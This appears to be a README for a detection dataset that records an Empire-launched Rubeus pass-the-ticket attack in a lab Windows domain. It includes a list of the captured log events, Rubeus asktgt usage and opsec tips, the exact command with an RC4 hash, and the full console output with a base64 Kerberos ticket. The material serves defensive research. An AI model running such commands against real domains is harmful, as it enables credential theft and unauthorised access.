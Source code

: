 
# Empire Rubeus PTT

The asktgt action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4, /aes128, /aes256, or /des). A /password flag can also be used instead of a hash - in this case /enctype:X will default to RC4 for the exchange, with des|aes128|aes256 as options. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:0xA.. flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the current logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the /createnetonly:C:\X.exe parameter (which hides the process by default unless the /show flag is specified), or request the ticket and apply it to another logon session with ptt /luid:0xA..

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_rubeus_asktgt_ptt.tar.gz](./empire_rubeus_asktgt_ptt.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19145126

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             334 |
| Security                                 | Filtering Platform Connection                          |             301 |
| Security                                 | Token Right Adjusted Events                            |             180 |
| Security                                 | User Account Management                                |              51 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |               9 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Logon                                                  |               9 |
| Security                                 | Special Logon                                          |               9 |
| Security                                 | Process Termination                                    |               7 |
| Security                                 | Sensitive Privilege Use                                |               6 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Authentication Service                        |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             436 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             104 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              90 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              83 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              21 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              14 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             279 |

## Empire Activity

```
Rubeus.exe asktgt /user:Mmidge /rc4:b415baa073a14f81f8c89a2a384f4a68 /ptt
```

```
[*] Tasked 2MES3XN6 to run TASK_SHELL
[*] Agent 2MES3XN6 tasked with task ID 21
(Empire: 2MES3XN6) > ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b415baa073a14f81f8c89a2a384f4a68
[*] Using domain controller: HFDC01.shire.com (172.18.39.5)
[*] Building AS-REQ (w/ preauth) for: 'shire.com\Mmidge'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+KADAgEFoQsbCVNISVJFLkNPTaIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJc2hpcmUuY29to4IDwjCCA76gAwIBEqEDAgECooIDsASCA6xLDFM5i+GcjKhK
      ix5DoHwWPlrrbj4nPOcTyK/umBEnffx9hz7tu3acyQU127mvFR7u0JO3h6U6FPrKPz2iJ6v3sx5AYGM6
      Imf0J2NBWb3+AU0WmuOBCa3k/BL+jl49isw6CuWHKrqyOk7SaoRORdd9G0hDv5zpHeF5Nzfz4dQ3GqmO
      W2ORZuTQR868MYEFYnCIjY+wNf/ve9Cie6isW170KSEMPrWdQbeSFMu6KtJaCNLTc2800JTO3ObrOZUW
      zylDRelTgBY4FCTyBUaseF45EWwFyiMeeABhgUZ1iFPGezsplcczGpaYB19bLz2r89j5k+3IJGzyOcA9
      hECNycNVzycIcU4SUtKtxqiRLoPqfPjHq8codY1npbUsovsW6wEi25lgFxzlVdxF2Bek368qBU1B1s9g
      CL06GUSjlfjPj9Heb7exTr9r+4j4JL+qVZaqlBtAQ4J38CKNJ9RdZME/9wRg6I/E15P8NNUAr7IOyF6S
      cYlNQ07uRFRKBgi30JSdBC7CSe2x546Jrrd17YQtDOHbw1WFP7HvYgdT+Miuit/WoRttWmNTEv4vj6oD
      +AuTrQKxnhbebef6MXXsR4ouDrBIlIw6r5T476ezkbNJeQwB6oryMUOsI3wu3DDFdRD7ZBY869fSC7Xe
      1+6vRO4Vu/mUXYzw9xkJ0C7X+c4ljJetCZ/YV3zoc6Tw5WLjtfFJ0HuFdIxxOEj8xK0BoyGwnDz3fOGC
      mEjH47U/w0EsUdBmnsZzRTujrTwGFbm/oCjOV9Dgae/aVLe0A+TSrWH2H8aKFmGeczrtTgEkGZDJyudm
      bVdeymTc0bv8AT8s0moOKc64dhtib10LPnakbWDOSQOydi/abwuIaAB6+21F3cmZ9lq5/7e1LyYKWnxd
      ATHPz+M9kWJi+xeqombWvozrjM2uIozFik7nY0rMdrbd/ItlML7bCuOuybksFe/1mmwscWvCoTOePzNS
      NU2znzc8vDOSfaE5WLI9c1hJVjkarx9iL+kSM7N3yQEXkuwQuTY5Yswx1bht28sKjsU+Q0dZxdhNeErd
      lJekqyf5NAKI2fmawmWBmzcXm7NDRATgDf3N9tpiTOW0x0Blv2F+SWXparZ06E5wdqNsV4l2Yf9x6yOp
      exrQvjCznKbpbh0u1rlhm0Ya8yieDqbCKEIzxIk1IjYwx/4OQ6fdGAm6SjF+rH/Pnyh/o5X4DxLSeGEy
      LPDjuDBHuReqj4UP//bhH7r5UptZuQ+cZ5liu58eo4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEw
      ga6gGzAZoAMCARehEgQQfj5vhePBJY0eMPFDHvkIxKELGwlTSElSRS5DT02iEzARoAMCAQGhCjAIGwZN
      bWlkZ2WjBwMFAEDhAAClERgPMjAxOTAzMTkxODU1NDlaphEYDzIwMTkwMzIwMDQ1NTQ5WqcRGA8yMDE5
      MDMyNjE4NTU0OVqoCxsJU0hJUkUuQ09NqR4wHKADAgECoRUwExsGa3JidGd0GwlzaGlyZS5jb20=

[*] Action: Import Ticket
[+] Ticket successfully imported!

[*] Action: Describe Ticket

  UserName              :  Mmidge
  UserRealm             :  SHIRE.COM
  ServiceName           :  krbtgt/shire.com
  ServiceRealm          :  SHIRE.COM
  StartTime             :  3/19/2019 1:55:49 PM
  EndTime               :  3/19/2019 11:55:49 PM
  RenewTill             :  3/26/2019 1:55:49 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  fj5vhePBJY0eMPFDHvkIxA==


..Command execution completed.

(Empire: 2MES3XN6) > 
```